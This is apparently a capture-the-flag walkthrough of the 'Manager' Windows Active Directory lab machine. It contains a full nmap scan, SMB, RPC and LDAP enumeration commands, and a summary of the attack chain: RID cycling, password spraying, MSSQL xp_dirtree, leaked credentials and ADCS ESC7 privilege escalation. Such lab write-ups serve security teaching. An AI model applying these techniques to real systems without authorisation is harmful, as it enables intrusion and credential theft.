- Machine Name:  Manager
- OS Type: Windows
- Difficulty: Medium

### Summary:

- we found that SMB allows null-session after that we enumerated user’s via RID Cycling with netexec with `-u anonymous -p ''`
- then i tried password spraying, and found operator:operator, tried that login to MSSQL and then ran xp_dirtree and found website backup zip file in website’s directory `C:\inetpub\wwwroot\`
- found Revan user’s credential inside .old-conf.xml, evil-winrm as revan and got user.txt
- running certipy-ad and found ADCS ESC7 vulnerability, follow https://www.hackingarticles.in/adcs-esc7-vulnerable-certificate-authority-access-control/ article to gain Administrator NTLM hash, and then evil-winrm as administrator to get root.txt

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Mon Jul  7 19:15:26 2025 as: /usr/lib/nmap/nmap -sVC --open -p- -oN initial/nmap.out -vv 10.10.11.236
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 10.10.11.236
Host is up, received echo-reply ttl 127 (0.22s latency).
Scanned at 2025-07-07 19:15:32 IST for 584s
Not shown: 65512 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Manager
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-07 20:53:40Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-30T17:08:51
| Not valid after:  2122-07-27T10:31:04
| MD5:   bc56:af22:5a3d:db67:c9bb:a439:4232:14d1
| SHA-1: 2b6d:98b3:d379:df64:59f6:c665:d4b7:53b0:faf6:e07a
| -----BEGIN CERTIFICATE-----
| MIIFyDCCBLCgAwIBAgITXwAAABHDlIAulPWHxgAAAAAAETANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbWFuYWdl
| cjEYMBYGA1UEAxMPbWFuYWdlci1EQzAxLUNBMCAXDTI0MDgzMDE3MDg1MVoYDzIx
| MjIwNzI3MTAzMTA0WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA
| 7Pt5jAgDiLnlXbCaEu5YkYU9UB5O36TnSqkMDx5/iXnxVmyynxCezA20S5wkZ+1R
| Zq4GN/KQ8IOZObRZ6uFc34KhOajObR12O4m7dxZLKLQwyv4ET21zlbHuwzcseMeP
| t8vm0eabezOlR0GW3yMSEElmg3Rtivd5a+k6yIfA1z0/9xIaQl61yYexwAS53+Iz
| 8IaPXPWkHr9ELxAdSMYJELiV8eG43KOQ28rqBNecz5eHYnvy0AKS1Kt7IODOHKwH
| FYfIrKcl3YIDE+IqSCv+gdKprfvfgspFrJgbDYEhDP93kHF06bbnttBKvCpu+FAC
| rg2AIyymVheJx8lJzgMeeQIDAQABo4IC7zCCAuswNQYJKwYBBAGCNxUHBCgwJgYe
| KwYBBAGCNxUIhunUf4LfwleDsYkm1dV5+6weIwEcAgFuAgECMCkGA1UdJQQiMCAG
| CCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAjAOBgNVHQ8BAf8EBAMCBaAw
| NQYJKwYBBAGCNxUKBCgwJjAKBggrBgEFBQcDAjAKBggrBgEFBQcDATAMBgorBgEE
| AYI3FAICMB0GA1UdDgQWBBTwZlQbixROyHC6vosxL0ZqZFx0EzAfBgNVHSMEGDAW
| gBQ6y/QuzYnIJDZmjzlYBg4ivzAOTDCBygYDVR0fBIHCMIG/MIG8oIG5oIG2hoGz
| bGRhcDovLy9DTj1tYW5hZ2VyLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz1tYW5hZ2VyLERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jh
| c2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcEGCCsGAQUFBwEB
| BIG0MIGxMIGuBggrBgEFBQcwAoaBoWxkYXA6Ly8vQ049bWFuYWdlci1EQzAxLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPW1hbmFnZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/
| YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MB4GA1UdEQEB
| /wQUMBKCEGRjMDEubWFuYWdlci5odGIwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEE
| AYI3GQIBoDAELlMtMS01LTIxLTQwNzgzODIyMzctMTQ5MjE4MjgxNy0yNTY4MTI3
| MjA5LTEwMDAwDQYJKoZIhvcNAQELBQADggEBABAdOIMcqsDOfZ/0R2p50BzXyavO
| MsA1XBGc31NOKaIg96/JxW/YQWyUSvqAcLWSegqXszFyngao6pqH5Biql9jZhD2X
| 8aaJzmiVZO2TtST49augfum5hQYiCIo/jAhKC6vnNl+pAjRZYEfv+PZqjsfDVBwC
| XRQJEpiIAmd05b/zrhz7VSceGWGAWvJievynjx0JCpe+61/s8w2hALvcdPcTRtCU
| oVfFTxa3zxBRmnqt2l/qAdUP0QlNJ12A0extUg1L7FIpH0uBdqhXGjqzPD5jLCG4
| CIuC4DNai+8mVyQYa6KHjod9QOGOUSeDVdeshf5le28sddSPiZhmvNRZF1E=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-07-07T20:55:18+00:00; +7h00m04s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-07T20:55:18+00:00; +7h00m05s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-30T17:08:51
| Not valid after:  2122-07-27T10:31:04
| MD5:   bc56:af22:5a3d:db67:c9bb:a439:4232:14d1
| SHA-1: 2b6d:98b3:d379:df64:59f6:c665:d4b7:53b0:faf6:e07a
| -----BEGIN CERTIFICATE-----
| MIIFyDCCBLCgAwIBAgITXwAAABHDlIAulPWHxgAAAAAAETANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbWFuYWdl
| cjEYMBYGA1UEAxMPbWFuYWdlci1EQzAxLUNBMCAXDTI0MDgzMDE3MDg1MVoYDzIx
| MjIwNzI3MTAzMTA0WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA
| 7Pt5jAgDiLnlXbCaEu5YkYU9UB5O36TnSqkMDx5/iXnxVmyynxCezA20S5wkZ+1R
| Zq4GN/KQ8IOZObRZ6uFc34KhOajObR12O4m7dxZLKLQwyv4ET21zlbHuwzcseMeP
| t8vm0eabezOlR0GW3yMSEElmg3Rtivd5a+k6yIfA1z0/9xIaQl61yYexwAS53+Iz
| 8IaPXPWkHr9ELxAdSMYJELiV8eG43KOQ28rqBNecz5eHYnvy0AKS1Kt7IODOHKwH
| FYfIrKcl3YIDE+IqSCv+gdKprfvfgspFrJgbDYEhDP93kHF06bbnttBKvCpu+FAC
| rg2AIyymVheJx8lJzgMeeQIDAQABo4IC7zCCAuswNQYJKwYBBAGCNxUHBCgwJgYe
| KwYBBAGCNxUIhunUf4LfwleDsYkm1dV5+6weIwEcAgFuAgECMCkGA1UdJQQiMCAG
| CCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAjAOBgNVHQ8BAf8EBAMCBaAw
| NQYJKwYBBAGCNxUKBCgwJjAKBggrBgEFBQcDAjAKBggrBgEFBQcDATAMBgorBgEE
| AYI3FAICMB0GA1UdDgQWBBTwZlQbixROyHC6vosxL0ZqZFx0EzAfBgNVHSMEGDAW
| gBQ6y/QuzYnIJDZmjzlYBg4ivzAOTDCBygYDVR0fBIHCMIG/MIG8oIG5oIG2hoGz
| bGRhcDovLy9DTj1tYW5hZ2VyLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz1tYW5hZ2VyLERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jh
| c2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcEGCCsGAQUFBwEB
| BIG0MIGxMIGuBggrBgEFBQcwAoaBoWxkYXA6Ly8vQ049bWFuYWdlci1EQzAxLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPW1hbmFnZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/
| YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MB4GA1UdEQEB
| /wQUMBKCEGRjMDEubWFuYWdlci5odGIwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEE
| AYI3GQIBoDAELlMtMS01LTIxLTQwNzgzODIyMzctMTQ5MjE4MjgxNy0yNTY4MTI3
| MjA5LTEwMDAwDQYJKoZIhvcNAQELBQADggEBABAdOIMcqsDOfZ/0R2p50BzXyavO
| MsA1XBGc31NOKaIg96/JxW/YQWyUSvqAcLWSegqXszFyngao6pqH5Biql9jZhD2X
| 8aaJzmiVZO2TtST49augfum5hQYiCIo/jAhKC6vnNl+pAjRZYEfv+PZqjsfDVBwC
| XRQJEpiIAmd05b/zrhz7VSceGWGAWvJievynjx0JCpe+61/s8w2hALvcdPcTRtCU
| oVfFTxa3zxBRmnqt2l/qAdUP0QlNJ12A0extUg1L7FIpH0uBdqhXGjqzPD5jLCG4
| CIuC4DNai+8mVyQYa6KHjod9QOGOUSeDVdeshf5le28sddSPiZhmvNRZF1E=
|_-----END CERTIFICATE-----
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.236:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb
|     DNS_Tree_Name: manager.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-07-07T20:55:18+00:00; +7h00m04s from scanner time.
| ms-sql-info: 
|   10.10.11.236:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-07T20:42:31
| Not valid after:  2055-07-07T20:42:31
| MD5:   b56c:6534:1d9d:a3c4:b3c6:a626:6c3e:02cb
| SHA-1: ce02:933d:356a:179f:3c77:76b3:5af8:9e93:f862:5fb3
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQfwedkTSG5K5KP7ZojoZBqDANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjUwNzA3MjA0MjMxWhgPMjA1NTA3MDcyMDQyMzFaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBALVu/Z/h
| +KH53Dl0xplzNdJn/3/++QqXyYQ3rE9KFzCbV7HSkMCZm1LeQw7ZjqBGq++yE1G5
| wDPC2pB0OkeeWhfmucgHaE79h2sz7NlvFsivpjQ2dvR0x8t9xcigqM/SmQa7Fivz
| piZnJ/H6D5VtSFPQk7P+M4bS+dOMPIGv6ofGi+qjX7Vpqk/MHeLEMDXbwq+Ke29/
| nTZJLy29felXIsyBRaTnnyOHSGpm1l08fZsdzkNRUtOJnTXrDbkmISGRL+IUGMz8
| g24oj4wAtTwJQDd5UDpOEQB35jJDFE+ITX66UlxOSPHOHd/qhX8Feos+NQ6YqOXW
| yT7dMKVJC1j2nQkCAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAWuUP08NfnVXxRcjZ
| hAzzGplOJJiCC2lHZws2VGpcu16LNAl3IXhUDbmSpnUd1Hr5aA/03/V006gvGtSv
| X6lvXfXo+KJqGWsT+EB9fmzsRPZUd2BSPR+VxHl0nXKG3JcFYYgfFXVBB09+juRm
| wxLMJIkcgJ7EdL/rh0PRW8aoHGVFj84GM6Gsat3wFTBp7myCnj7Yc3vVlweQqO3z
| 9rfvk/t4MCUeKZJWSXIEfa+BlGtWbPTJNhl2YYTds+vhVlBtEkMnLXHmw+VoVrJL
| 4nVWtlXUnhMXXRjgLB9Q0pqefpm/h4OrqtsnFKx5zsmiOyppe5E3MamvWWnO4JNc
| SIiy/A==
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-30T17:08:51
| Not valid after:  2122-07-27T10:31:04
| MD5:   bc56:af22:5a3d:db67:c9bb:a439:4232:14d1
| SHA-1: 2b6d:98b3:d379:df64:59f6:c665:d4b7:53b0:faf6:e07a
| -----BEGIN CERTIFICATE-----
| MIIFyDCCBLCgAwIBAgITXwAAABHDlIAulPWHxgAAAAAAETANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbWFuYWdl
| cjEYMBYGA1UEAxMPbWFuYWdlci1EQzAxLUNBMCAXDTI0MDgzMDE3MDg1MVoYDzIx
| MjIwNzI3MTAzMTA0WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA
| 7Pt5jAgDiLnlXbCaEu5YkYU9UB5O36TnSqkMDx5/iXnxVmyynxCezA20S5wkZ+1R
| Zq4GN/KQ8IOZObRZ6uFc34KhOajObR12O4m7dxZLKLQwyv4ET21zlbHuwzcseMeP
| t8vm0eabezOlR0GW3yMSEElmg3Rtivd5a+k6yIfA1z0/9xIaQl61yYexwAS53+Iz
| 8IaPXPWkHr9ELxAdSMYJELiV8eG43KOQ28rqBNecz5eHYnvy0AKS1Kt7IODOHKwH
| FYfIrKcl3YIDE+IqSCv+gdKprfvfgspFrJgbDYEhDP93kHF06bbnttBKvCpu+FAC
| rg2AIyymVheJx8lJzgMeeQIDAQABo4IC7zCCAuswNQYJKwYBBAGCNxUHBCgwJgYe
| KwYBBAGCNxUIhunUf4LfwleDsYkm1dV5+6weIwEcAgFuAgECMCkGA1UdJQQiMCAG
| CCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAjAOBgNVHQ8BAf8EBAMCBaAw
| NQYJKwYBBAGCNxUKBCgwJjAKBggrBgEFBQcDAjAKBggrBgEFBQcDATAMBgorBgEE
| AYI3FAICMB0GA1UdDgQWBBTwZlQbixROyHC6vosxL0ZqZFx0EzAfBgNVHSMEGDAW
| gBQ6y/QuzYnIJDZmjzlYBg4ivzAOTDCBygYDVR0fBIHCMIG/MIG8oIG5oIG2hoGz
| bGRhcDovLy9DTj1tYW5hZ2VyLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz1tYW5hZ2VyLERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jh
| c2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcEGCCsGAQUFBwEB
| BIG0MIGxMIGuBggrBgEFBQcwAoaBoWxkYXA6Ly8vQ049bWFuYWdlci1EQzAxLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPW1hbmFnZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/
| YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MB4GA1UdEQEB
| /wQUMBKCEGRjMDEubWFuYWdlci5odGIwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEE
| AYI3GQIBoDAELlMtMS01LTIxLTQwNzgzODIyMzctMTQ5MjE4MjgxNy0yNTY4MTI3
| MjA5LTEwMDAwDQYJKoZIhvcNAQELBQADggEBABAdOIMcqsDOfZ/0R2p50BzXyavO
| MsA1XBGc31NOKaIg96/JxW/YQWyUSvqAcLWSegqXszFyngao6pqH5Biql9jZhD2X
| 8aaJzmiVZO2TtST49augfum5hQYiCIo/jAhKC6vnNl+pAjRZYEfv+PZqjsfDVBwC
| XRQJEpiIAmd05b/zrhz7VSceGWGAWvJievynjx0JCpe+61/s8w2hALvcdPcTRtCU
| oVfFTxa3zxBRmnqt2l/qAdUP0QlNJ12A0extUg1L7FIpH0uBdqhXGjqzPD5jLCG4
| CIuC4DNai+8mVyQYa6KHjod9QOGOUSeDVdeshf5le28sddSPiZhmvNRZF1E=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-07-07T20:55:18+00:00; +7h00m04s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-07T20:55:18+00:00; +7h00m05s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-30T17:08:51
| Not valid after:  2122-07-27T10:31:04
| MD5:   bc56:af22:5a3d:db67:c9bb:a439:4232:14d1
| SHA-1: 2b6d:98b3:d379:df64:59f6:c665:d4b7:53b0:faf6:e07a
| -----BEGIN CERTIFICATE-----
| MIIFyDCCBLCgAwIBAgITXwAAABHDlIAulPWHxgAAAAAAETANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbWFuYWdl
| cjEYMBYGA1UEAxMPbWFuYWdlci1EQzAxLUNBMCAXDTI0MDgzMDE3MDg1MVoYDzIx
| MjIwNzI3MTAzMTA0WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA
| 7Pt5jAgDiLnlXbCaEu5YkYU9UB5O36TnSqkMDx5/iXnxVmyynxCezA20S5wkZ+1R
| Zq4GN/KQ8IOZObRZ6uFc34KhOajObR12O4m7dxZLKLQwyv4ET21zlbHuwzcseMeP
| t8vm0eabezOlR0GW3yMSEElmg3Rtivd5a+k6yIfA1z0/9xIaQl61yYexwAS53+Iz
| 8IaPXPWkHr9ELxAdSMYJELiV8eG43KOQ28rqBNecz5eHYnvy0AKS1Kt7IODOHKwH
| FYfIrKcl3YIDE+IqSCv+gdKprfvfgspFrJgbDYEhDP93kHF06bbnttBKvCpu+FAC
| rg2AIyymVheJx8lJzgMeeQIDAQABo4IC7zCCAuswNQYJKwYBBAGCNxUHBCgwJgYe
| KwYBBAGCNxUIhunUf4LfwleDsYkm1dV5+6weIwEcAgFuAgECMCkGA1UdJQQiMCAG
| CCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAjAOBgNVHQ8BAf8EBAMCBaAw
| NQYJKwYBBAGCNxUKBCgwJjAKBggrBgEFBQcDAjAKBggrBgEFBQcDATAMBgorBgEE
| AYI3FAICMB0GA1UdDgQWBBTwZlQbixROyHC6vosxL0ZqZFx0EzAfBgNVHSMEGDAW
| gBQ6y/QuzYnIJDZmjzlYBg4ivzAOTDCBygYDVR0fBIHCMIG/MIG8oIG5oIG2hoGz
| bGRhcDovLy9DTj1tYW5hZ2VyLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz1tYW5hZ2VyLERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jh
| c2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcEGCCsGAQUFBwEB
| BIG0MIGxMIGuBggrBgEFBQcwAoaBoWxkYXA6Ly8vQ049bWFuYWdlci1EQzAxLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPW1hbmFnZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/
| YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MB4GA1UdEQEB
| /wQUMBKCEGRjMDEubWFuYWdlci5odGIwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEE
| AYI3GQIBoDAELlMtMS01LTIxLTQwNzgzODIyMzctMTQ5MjE4MjgxNy0yNTY4MTI3
| MjA5LTEwMDAwDQYJKoZIhvcNAQELBQADggEBABAdOIMcqsDOfZ/0R2p50BzXyavO
| MsA1XBGc31NOKaIg96/JxW/YQWyUSvqAcLWSegqXszFyngao6pqH5Biql9jZhD2X
| 8aaJzmiVZO2TtST49augfum5hQYiCIo/jAhKC6vnNl+pAjRZYEfv+PZqjsfDVBwC
| XRQJEpiIAmd05b/zrhz7VSceGWGAWvJievynjx0JCpe+61/s8w2hALvcdPcTRtCU
| oVfFTxa3zxBRmnqt2l/qAdUP0QlNJ12A0extUg1L7FIpH0uBdqhXGjqzPD5jLCG4
| CIuC4DNai+8mVyQYa6KHjod9QOGOUSeDVdeshf5le28sddSPiZhmvNRZF1E=
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49686/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49689/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49720/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49761/tcp open  tcpwrapped    syn-ack ttl 127
49785/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49853/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-07T20:54:42
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 4401/tcp): CLEAN (Timeout)
|   Check 2 (port 49697/tcp): CLEAN (Timeout)
|   Check 3 (port 12164/udp): CLEAN (Timeout)
|   Check 4 (port 50535/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 7h00m04s, deviation: 0s, median: 7h00m03s

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul  7 19:25:16 2025 -- 1 IP address (1 host up) scanned in 590.81 seconds

```

Before starting off this machine, we need to add the domain name and domain controller hostname to the /etc/hosts file as we’re dealing with Active Directory machine

```bash
echo "10.10.11.236 manager.htb dc01.manager.htb" | sudo tee -a /etc/hosts
```

## Enumeration

### Port 80/HTTP

let’s start our enumeration from port 80, which is running http service


i opened the site in browser to check it manually, i ran gobuster with different lists but not found antything

### Port 139,445/SMB

we can see that the SMB is open on the target machine so first thing we do is to check Null-session/Anonymous login and see if there’s any interesting shares available

```bash
smbclient -L //10.10.11.236 -N
```



looks like there’s no interesting folders here, also i tried to connect to NETLOGON, SYSVOL shares as well but nothing was found



i got NT_STATUS_ACCESS_DENIED, as we can see that the SMB anonymous login is enabled so i ran the enum4linux, but didn’t get anything from it as well

### Port 135/MSRPC

let’s check RPC for the anonymous login, and try to enumerate users, domain groups etc…

```bash
rpcclient -U "" -N 10.10.11.236
```



nothing in MSRPC as well, let’s check LDAP

### Port 389,3268/LDAP

let’s check if LDAP allows anonymous binding or not, if it’s allowing anonymous binding we can get the Full information of domain via LDAP

let’s get the DN of the domain first, also called DistinguishedName

```bash
ldapsearch -H ldap://10.10.11.236 -x -s base namingcontexts
```

